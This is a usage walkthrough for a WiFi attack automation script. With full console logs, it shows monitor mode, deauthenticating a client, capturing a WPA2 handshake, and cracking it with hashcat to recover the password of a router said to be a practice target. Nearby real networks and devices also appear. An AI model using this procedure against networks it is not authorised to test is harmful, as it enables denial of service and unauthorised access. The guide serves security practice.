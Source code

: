 # Detailed Instructions for Using the "wifi-attack-automation-tool"

Before running the script `wifi-attack-automation-tool.py`, it is essential to have **root privileges**, as the applications used by the script require these permissions.

Once the necessary privileges have been obtained, proceed to execute the script using the following command:

```
# wifi-attack-automation-tool.py
```

The script itself will verify whether the required **Python packages and system tools** are installed for proper operation.

```
# ./wifi-attack-automation-tool.py 
[2025-06-27 20:27:56.685] <inf> Verifying required Python packages:
[2025-06-27 20:27:56.685] <inf> print_helper_logger is installed
[2025-06-27 20:27:56.685] <inf> scapy is installed
[2025-06-27 20:27:56.685] <inf> deauth_lib is available
[2025-06-27 20:27:56.685] <inf> All required Python packages are ready
[2025-06-27 20:27:56.948] <inf> Verifying required tools:
[2025-06-27 20:27:56.948] <inf> iw found
[2025-06-27 20:27:56.948] <inf> ifconfig found
[2025-06-27 20:27:56.949] <inf> iwconfig found
[2025-06-27 20:27:56.949] <inf> airodump-ng found
[2025-06-27 20:27:56.949] <inf> hcxpcapngtool found
[2025-06-27 20:27:56.949] <inf> hashcat found
[2025-06-27 20:27:56.949] <inf> All tools are ready. System check passed
[2025-06-27 20:27:56.955] <inf> Interfaces that support monitor mode:
[2025-06-27 20:27:56.955] <inf> 1.   wlx00e0202d05b8
Select an interface by number: 1
```

Next, a list of available **network interfaces capable of monitor mode** will be displayed. You must select the desired one; in our case, it is the interface named `wlx00e0202d05b8`, so we choose **option number 1**.

At this point, the script will:
- Configure the selected interface in **monitor mode**.
- Prepare the environment to scan available wireless networks, including:
  - Access Points (AP)
  - Devices connected to them.

```
Select an interface by number: 1
[2025-06-27 20:27:58.718] <inf> You selected: wlx00e0202d05b8
[2025-06-27 20:27:58.737] <inf> 🔻 ifconfig down: OK
[2025-06-27 20:27:58.739] <inf> 📡 iwconfig monitor: OK
[2025-06-27 20:27:58.743] <inf> 🔺 ifconfig up: OK
[2025-06-27 20:27:58.743] <inf> Press [Enter] to begin scanning with airodump-ng...
[2025-06-27 20:27:58.743] <inf> You will run airodump-ng in new window
[2025-06-27 20:27:58.743] <inf> When you're done scanning, press CTRL+C there to stop
```

After pressing [Enter], `airodump-ng` starts to run in order to begin analyzing WiFi devices connected to access points.

```
 CH  1 ][ Elapsed: 12 s ][ 2025-06-27 20:28 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 D0:57:94:70:24:76   -1        0        0    0  -1   -1                    <length:  0>
 CC:D4:A1:83:05:2F   -1        0        0    0  -1   -1                    <length:  0>
 88:DE:7C:A2:91:9F   -1        0        0    0  -1   -1                    <length:  0>
 60:8D:26:FA:ED:11   -1        0        0    0  -1   -1                    <length:  0>
 DC:51:93:D5:0A:F2   -1        0        0    0  -1   -1                    <length:  0>
 2C:96:82:DD:4F:80  -52       38        4    0   6  648   WPA2 CCMP   PSK  MOVISTAR-WIFI6-4F80
 EC:BE:DD:AD:08:96  -60       44       12    0   9  195   WPA2 CCMP   PSK  HACK_ME
 34:60:F9:6A:95:62  -68       39        2    0   6  130   WPA2 CCMP   PSK  MOVISTAR-WIFI6-4F80_EXT
 F4:1E:57:06:AA:F3  -69       19        6    0   1  360   WPA3 CCMP   SAE  OSCVER

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 60:8D:26:FA:ED:11  CC:8C:BF:3C:38:05  -57    0 - 1     13      107     
 (not associated)   68:A0:3E:4E:E3:F9  -61    0 - 1      0       13    
 2C:96:82:DD:4F:80  EC:0B:AE:6E:CE:B1  -57    0 - 1e     0        1   
 2C:96:82:DD:4F:80  F4:CE:46:52:FD:7E  -73   54e- 1      0        3   
 2C:96:82:DD:4F:80  36:60:F9:0A:95:62  -73    0 - 1e     0        2   
 EC:BE:DD:AD:08:96  F6:B1:11:45:98:25  -51    0 - 1e   528       49    
 F4:1E:57:06:AA:F3  EE:12:4A:F6:F6:4E  -33    0 -24      0        6   
 F4:1E:57:06:AA:F3  44:07:0B:A9:BD:11  -57    0 - 1e     0        2
```

Once the **target network** has been identified (for example, the AP `HACK_ME` with BSSID `EC:BE:DD:AD:08:96`), we also select the **associated device** to which we will send **DeAuth packets**. In this example, the device `F6:B1:11:45:98:25`.

The objective is to **force its disconnection** in order to capture the **handshake** when it attempts to reconnect.

By stopping the scan with `Ctrl+C`, the script will analyze the devices connected to valid access points and display a list of them.

```
Quitting...
[2025-06-27 20:28:17.570] <wrn> (airodump-ng) Execution interrupted by user (CTRL+C)
[2025-06-27 20:28:17.570] <inf> 📋 Available targets with valid channels:
[2025-06-27 20:28:17.570] <inf> 1) F4:CE:46:52:FD:7E → BSSID: 2C:96:82:DD:4F:80 (Channel 6)
[2025-06-27 20:28:17.570] <inf> 2) F6:B1:11:45:98:25 → BSSID: EC:BE:DD:AD:08:96 (Channel 9)
[2025-06-27 20:28:17.570] <inf> 3) EC:0B:AE:6E:CE:B1 → BSSID: 2C:96:82:DD:4F:80 (Channel 6)
Enter the number of the client to target:
```

We will then be prompted to **select the device to attack**, i.e., the one to which we will send the DeAuth packets. In this case, we select **option number 2**.

```
Enter the number of the client to target: 2
[2025-06-27 20:28:20.822] <inf> 🎯 Target selected: F6:B1:11:45:98:25 → AP: EC:BE:DD:AD:08:96 on channel 9
Enter number of deauth packets to send [default: 25]:
```

Next, we need to specify **how many DeAuth packets** we want to send:
- If no value is entered, the **default** is **25 packets**.
- By default, they will be sent **every 0.5 seconds**.

Once the number of packets is confirmed:
- A process will open using `airodump-ng` to **listen on the channel** corresponding to the selected AP (in this example, **channel 9**).
- Simultaneously, another process will start to **send the DeAuth packets**.

```
[2025-06-27 20:28:23.925] <inf> Handshake capture started: output → /home/oscargomezf/GIT/wifi-attack-automation-tool/captures/MAC_F6B111459825_BSSID_ECBEDDAD0896_CH_9_20250627_2028-01.cap
[2025-06-27 20:28:23.925] <inf> Starting deauth attack on F6:B1:11:45:98:25 → AP EC:BE:DD:AD:08:96
[2025-06-27 20:28:23.927] <inf> Sending 25 DeAuth packets to F6:B1:11:45:98:25 from EC:BE:DD:AD:08:96
.20:28:23  Created capture file "/home/oscargomezf/GIT/wifi-attack-automation-tool/captures/MAC_F6B111459825_BSSID_ECBEDDAD0896_CH_9_20250627_2028-01.cap".
```

```
 CH  9 ][ Elapsed: 12 s ][ 2025-06-27 20:28 ][ WPA handshake: EC:BE:DD:AD:08:96

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 EC:BE:DD:AD:08:96  -61   0       89       13    0   9  195   WPA2 CCMP   PSK  HACK_ME

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 EC:BE:DD:AD:08:96  F6:B1:11:45:98:25  -45    1e-11      0       60  PMKID
 EC:BE:DD:AD:08:96  CC:8C:BF:3C:38:05  -61    0 - 1     36       24    
```

After the attack is completed, the **capture process will automatically close**.

```
Sent 25 packets.
[2025-06-27 20:28:36.476] <inf> Stopping handshake capture...
```

Subsequently, the tool `hcxpcapngtool` will be used to **convert the `.cap` file generated by `airodump-ng` into a hash format**.

```
[2025-06-27 20:28:36.492] <inf> Convert pcap to hash using hcxpcapngtool
[2025-06-27 20:28:36.500] <inf> (hcxpcapngtool) Conversion successful: /home/oscargomezf/GIT/wifi-attack-automation-tool/captures/wpa2.hc22000
[2025-06-27 20:28:36.500] <inf> /home/oscargomezf/GIT/wifi-attack-automation-tool/captures/wpa2.hc22000: WPA*01*70b128dd915b8008211276e7673bfcae*ecbeddad0896*f6b111459825*4841434b5f4d45***
WPA*02*99ce70ae05369a5d6ec44d7994b8c057*ecbeddad0896*f6b111459825*4841434b5f4d45*9d1be82bcaf2959f56f5f8590cf74329ed4366a4ff8f4f9ee8e65149bd079ef6*0103007502010a0000000000000000001214224b234a0f9cad89d23411447194488f4f405dfda032e44930ec793b934e8e000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001630140100000fac020100000fac040100000fac020000*00
```

The next step is to select the wordlist you want to use for brute force:

```
[2025-06-27 20:28:36.500] <inf> Trying to crack the hash using Hashcat
[2025-06-27 20:28:36.500] <inf> Available wordlists:
[2025-06-27 20:28:36.500] <inf> 1. rockyou.txt
[2025-06-27 20:28:36.500] <inf> 2. alleged-gmail-with-count.txt
[2025-06-27 20:28:36.500] <inf> 3. 500-worst-passwords.txt
[2025-06-27 20:28:36.500] <inf> 4. hotmail.txt
[2025-06-27 20:28:36.500] <inf> 5. No search password
Select the wordlist you want to use: 1
```

Once you have selected the wordlist, and with the hash file ready, the tool `hashcat` will be used along with the password list `rockyou.txt` to **perform a brute-force attack** in an attempt to **crack the password**.

> ⏳ **Note:** The time required will depend on the size of the wordlist.

```
[2025-06-27 20:28:50.588] <inf> You selected: /home/oscargomezf/GIT/wifi-attack-automation-tool/wordlists/rockyou.txt
[2025-06-26 20:28:50.798] <inf> This task may take several minutes...
[2025-06-26 23:41:57.437] <wrn> Password found: pipeylaura
```

Finally, if the process is successful, the **recovered password will be displayed** (for example, `pipeylaura`).

As a **final step**, the script will **return the WiFi interface to its original state**.

```
[2025-06-26 23:41:57.437] <inf> Restoring interface to mode: managed
```

---

## Additional Notes

- **Note 1:** It is recommended to run the script within a **Python virtual environment** to avoid dependency conflicts.

- **Note 2:** The router with SSID `HACK_ME` has been prepared **exclusively for this practice**.
  - **Security:** WPA + WPA2
  - **Key:** Randomly selected from the `rockyou.txt` wordlist: pipeylaura
